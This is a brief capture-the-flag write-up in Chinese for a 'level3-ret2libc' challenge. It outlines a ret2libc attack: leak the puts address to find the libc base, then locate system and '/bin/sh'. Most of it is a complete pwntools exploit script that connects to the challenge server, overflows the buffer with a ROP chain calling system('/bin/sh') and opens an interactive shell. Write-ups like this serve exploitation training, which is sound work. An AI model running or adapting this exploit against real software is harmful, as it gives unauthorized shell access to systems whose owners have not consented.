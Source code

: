 # level3-ret2libc
### 分析：
1. 通过给出的puts地址，可以推算出libc加载的地址
2. 通过libc得到system和"/bin/sh"的地址
3. 溢出时，调用system函数，传"/bin/sh"参数可以执行shell

##### 注：system函数的作用是执行各种命令行下的指令

```
from pwn import *

r = remote("pwn.sixstars.team","22003")
elf  = ELF("./level3-ret2libc")
libc = ELF("./libc-2.23.so")

sh_addr = list(libc.search("/bin/sh"))[0]
print hex(sh_addr)

exeve_addr =libc.sym["system"]# 0xaf590
print hex(exeve_addr)

s1 = r.recvline()
s2 = r.recvline()

puts_p = libc.sym["puts"]
puts_addr = int(s2[-9:], 16)
print hex(puts_addr)
base_addr = puts_addr - puts_p

real_exeve = base_addr + exeve_addr
real_sh = base_addr + sh_addr

payload = 'a'*0x28 + 'a' * 4
code = p32(real_exeve) +p32(0) + p32(real_sh)# + p32(real_sh)+ p32(0)

r.send(payload + code)
r.interactive()
```

